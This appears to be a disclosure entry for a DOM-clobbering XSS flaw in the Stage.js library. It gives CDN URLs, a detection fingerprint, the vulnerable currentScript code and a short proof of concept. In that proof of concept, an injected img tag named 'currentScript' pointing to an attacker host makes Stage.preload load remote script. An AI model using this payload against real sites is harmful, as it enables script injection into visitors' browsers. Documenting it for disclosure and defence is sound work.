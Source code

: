 ## Stage.js

### Meta

+ Library: Stage.js
+ Stars: 2.4K
+ Version: v1-alpha
+ Fingerprint: `typeof Stage !== 'undefined' && typeof Stage.create === 'function'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://cdn.jsdelivr.net/npm/stage-js@1.0.0-alpha.4/+esm`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.min.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.min.js`

### Vulnerable Code Snippet

```javascript
  function getScriptSrc() {
    // HTML5
    if (document.currentScript) {
      return document.currentScript.src;
    }
```

```javascript
  return function(url) {
    if (/^\.\//.test(url)) {
      var src = getScriptSrc();
      var base = src.substring(0, src.lastIndexOf('/') + 1);
      url = base + url.substring(2);
      // } else if (/^\.\.\//.test(url)) {
      // url = base + url;
    }
    return url;
  };
```

## PoC

```
<!--Library-->
<script src="https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js" integrity="sha512-rA/8kCbIrzxcXW6akXAiN6FnpM+VW2iv9Zzw4ghu5Mt7xDobt3oraMSDxDeqq4kSUkaTBVdNOy1iyEyFhmceCw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

<script>
Stage.preload('./a.js')
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```